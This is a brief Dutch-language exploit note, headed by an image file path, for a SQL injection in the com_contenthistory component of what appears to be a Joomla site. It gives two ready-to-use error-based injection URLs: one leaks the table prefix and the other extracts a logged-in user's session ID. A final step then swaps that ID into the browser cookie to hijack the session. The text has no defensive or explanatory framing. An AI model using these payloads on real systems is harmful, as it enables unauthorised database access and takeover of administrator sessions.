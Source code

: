 1) Eerst table prefix achterhalen
    index.php?option=com_contenthistory&view=history&list[ordering]=&item_id=74&type_id=1&list[select]=(SELECT%201%20FROM%20(SELECT%20COUNT(*),CONCAT((SELECT%20(SHOW%20TABLES),%20FLOOR(RAND(0)*2))x%20FROM%20information_schema.tables%20GROUP%20BY%20x)a)

SQL error uitlezen

2) Dan aanval uitvoeren (#__session vervangen):

    index.php?option=com_contenthistory&view=history&list[ordering]=&item_id=75&type_id=1&list[select]=(SELECT 1 from (SELECT COUNT(*),CONCAT((SELECT (SELECT CONCAT(session_id)) FROM #__session WHERE guest=0 LIMIT 0,1), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)

Session ID uitlezen (maar zonder de toegevoegde 1)

3) In Firefox Webdeveloper Tools (oid) cookie waarde aanpassen
